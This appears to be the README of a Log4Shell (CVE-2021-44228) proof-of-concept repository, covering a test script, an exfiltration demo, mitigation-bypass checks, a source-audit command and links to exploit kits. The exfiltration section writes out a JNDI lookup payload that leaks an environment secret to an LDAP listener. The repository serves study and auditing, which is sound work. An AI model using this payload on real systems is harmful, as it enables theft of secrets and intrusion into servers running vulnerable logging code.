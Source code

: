 Log4j vulnerability exploration/proof of concept
================================================
Also known as CVE-2021-45046 CVE-20201-44228 #log4shell

https://logging.apache.org/log4j/2.x/security.html

How to use
===============================================
First verify that it works by running `test.sh` it should print ITWORKS in uppercase for different log levels


Exfiltration example
---------------------
```
cd listener
./ldap-exfil.py
```
in another terminal run the following and observe the secret key value being leaked to the ldap server
```
export SECRET_KEY="this_is_a_secret_key"
./vuln.sh error '${jndi:ldap://localhost:8888/${env:SECRET_KEY}}'
```


Mitigation bypass
------------------
You can compare the behaviour of the printf call to the others via:
```
./mitigator-vuln.sh error '${upper:bypass}'
./mitigator-vuln.sh info '${upper:bypass}'
./mitigator-vuln.sh printf '${upper:bypass}'
```

Audit source for log4j usage
----------------------------
```
graudit -d ./log4shell.db <file_or_dir>
```
And don't forget to look for the class files (recursively through jar/war/zip files)

Links
------------------
Thanks to all those who shared stuff before me, some of the links below.
https://github.com/pimps/JNDI-Exploit-Kit
https://github.com/leonjza/log4jpwn
https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf
https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
https://github.com/kmindi/log4shell-vulnerable-app/`
